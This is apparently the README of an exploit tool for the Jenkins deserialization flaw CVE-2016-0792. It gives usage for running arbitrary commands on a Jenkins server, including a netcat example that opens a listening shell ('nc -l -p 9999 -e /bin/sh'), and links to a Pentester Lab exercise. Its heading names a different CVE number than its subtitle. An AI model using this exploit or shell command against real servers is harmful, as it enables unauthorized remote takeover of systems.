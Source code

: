 
# Jenkins CVE-2025-10792-test
## Exploit for Jenkins serialization vulnerability - CVE-2016-0792

#### Exploit database

[https://www.exploit-db.com/exploits/42394/](https://www.exploit-db.com/exploits/42394/)

#### More information can be found here

1. [Contrast Security](https://www.contrastsecurity.com/security-influencers/serialization-must-die-act-2-xstream)

2. [Pentester Lab](https://www.pentesterlab.com/exercises/cve-2016-0792/)

#### Requirements

1. Python 3.6.x

2. [requests](http://docs.python-requests.org/en/master/) library is required for this exploit to work

      `sudo pip install requests`

#### Usage

`python3`

`from exploit import exploit`

`exploit(url, command)`

Where url is url to jenkins server and command is command to execute

##### Example

`exploit('http://192.168.56.101/jenkins/', '/usr/bin/nc -l -p 9999 -e /bin/sh')`

This will run nc and listen on port 9999 on vulnerable machine

For demonstration purposes I will be running ISO from [Pentester Lab](https://www.pentesterlab.com/exercises/cve-2016-0792/)

[![asciicast](https://asciinema.org/a/131436.png)](https://asciinema.org/a/131436)

#### Disclaimer
Using this software to attack targets without permission is illegal. I am not responsible for any damage caused by using
 this software against the law.
